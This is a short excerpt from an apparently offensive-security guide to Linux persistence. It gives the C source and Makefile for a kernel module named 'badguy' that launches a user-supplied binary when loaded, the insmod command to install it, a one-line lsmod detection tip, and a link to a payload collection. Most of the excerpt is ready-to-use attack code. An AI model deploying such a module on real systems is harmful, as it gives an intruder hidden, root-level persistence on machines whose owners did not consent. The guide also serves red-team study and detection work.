```C
#include <linux/module.h> // included for all kernel modules
#include <linux/init.h> // included for __init and __exit macros MODULE_LICENSE("GPL"); 
MODULE_AUTHOR("You");
MODULE_DESCRIPTION("A Simple shell module");
static int __init shell_init(void) { 
	call_usermodehelper("/path/to/badguy", NULL, NULL, UMH_WAIT_EXEC);
	return 0; // Non-zero return means that the module couldn't be loaded.
} 
static void __exit shell_cleanup(void) { 
	printk(KERN_INFO "Uninstalling Module!\n");
} 
module_init(shell_init);
module_exit(shell_cleanup);
```

with Makefile:

```Makefile
obj-m += badguy.o 
all: 
	make -C /lib/modules/$(shell uname -r)/build M=${PWD} modules
clean: 
	make -C /lib/modules/$(shell uname -r)/build M=${PWD} clean
```

now add your module:

```bash
sudo insmod badguy.ko
```

#### Detection:
User can see malicious module by executing
```bash
lsmod
```

</br>

# More methods
*refer: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md*

